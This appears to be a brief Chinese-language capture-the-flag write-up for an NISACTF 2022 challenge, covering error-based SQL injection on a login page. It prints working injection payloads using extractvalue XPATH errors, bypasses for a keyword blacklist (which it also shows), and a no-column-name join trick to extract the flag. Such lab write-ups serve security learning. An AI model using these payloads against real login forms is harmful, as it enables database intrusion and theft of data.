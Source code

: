 #SQL注入 #报错注入 
登陆页面有输入框

报错注入

- or被过滤用 ||代替
- = 被过滤用like代替

database里面的as被过滤，通过查询一个不存在的表，通过报错获得表名
```sql
-1' || (select * from aa)#
```
Table 'sqlsql.aa' doesn't exist

```sql
1' || extractvalue(1,concat(0x07, (select group_concat(table_name) from information_schema.tables where table_schema like 'sqlsql'), 0x07))#
```
XPATH syntax error: 'Fal_flag,output'

column 被过滤，参考 
[SQL注入绕过之过滤了‘as‘与无列名注入_sql注入表名被过滤_买Lemon也用劵的博客-CSDN博客](https://blog.csdn.net/weixin_52118430/article/details/125107854?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165892926816782425178259%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fall.%2522%257D&request_id=165892926816782425178259&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~first_rank_ecpm_v1~pc_rank_v35-7-125107854-null-null.142%5Ev35%5Eexperiment_28w_v1,185%5Ev2%5Econtrol&utm_term=%E6%97%A0%E5%88%97%E5%90%8D%E6%B3%A8%E5%85%A5&spm=1018.2226.3001.4187)
```sql
1' || extractvalue(1,concat(0x07, (select * from(select * from output b join output c)a), 0x07))#

1' || extractvalue(1,concat(0x07, (select * from(select * from output b join output c using(data))a), 0x07))#
```
XPATH syntax error: 'NSSCTF{7a079280-ba0f-483d-a8...'
直接获得半个flag
获取剩下半个
```sql
1' || extractvalue(1,concat(0x07, (select mid(data,28) from output), 0x07))#
```

```php
$blacklist = "union|left|right|and|or|by|if|\&|sleep|floor|substr|ascii|=|\"|benchmark|as|column|insert|update";
```

[[NISACTF 2022]下_[nisactf 2022]is secret_偶尔躲躲乌云334的博客-CSDN博客](https://blog.csdn.net/qq_62046696/article/details/126023632)
